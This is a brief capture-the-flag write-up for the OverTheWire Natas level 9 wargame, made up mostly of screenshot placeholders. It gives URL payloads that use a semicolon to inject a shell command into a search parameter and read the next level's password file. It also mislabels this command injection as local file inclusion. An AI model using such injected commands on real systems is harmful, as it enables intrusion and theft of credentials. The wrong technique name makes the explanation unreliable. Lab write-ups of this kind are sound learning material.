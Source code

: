 ﻿**Natas (OTW)**

**Natas 9 Writeup:**

Natas level 8 —>9

![](Aspose.Words.ecc38c40-fbf5-4db5-b7d3-2e9e877017aa.001.jpeg)

![](Aspose.Words.ecc38c40-fbf5-4db5-b7d3-2e9e877017aa.002.jpeg)Now using the key that we have procured after the combination of decoding , we input the key in the text area field to obtain the password.

![](Aspose.Words.ecc38c40-fbf5-4db5-b7d3-2e9e877017aa.003.jpeg)

![](Aspose.Words.ecc38c40-fbf5-4db5-b7d3-2e9e877017aa.004.jpeg)

**Payload :** <http://natas9.natas.labs.overthewire.org/?needle=id>

![](Aspose.Words.ecc38c40-fbf5-4db5-b7d3-2e9e877017aa.005.jpeg)

**Payload : <http://natas9.natas.labs.overthewire.org/?needle=;%20cat%20/etc/natas_webpass/natas10>**

Here in the payload we have used ; to break it similar to the way we did in sql injections we will be able to enter our payload.

Here they use the technique known as lfi or local file inclusion to extract the data from the source.

![](Aspose.Words.ecc38c40-fbf5-4db5-b7d3-2e9e877017aa.006.jpeg)
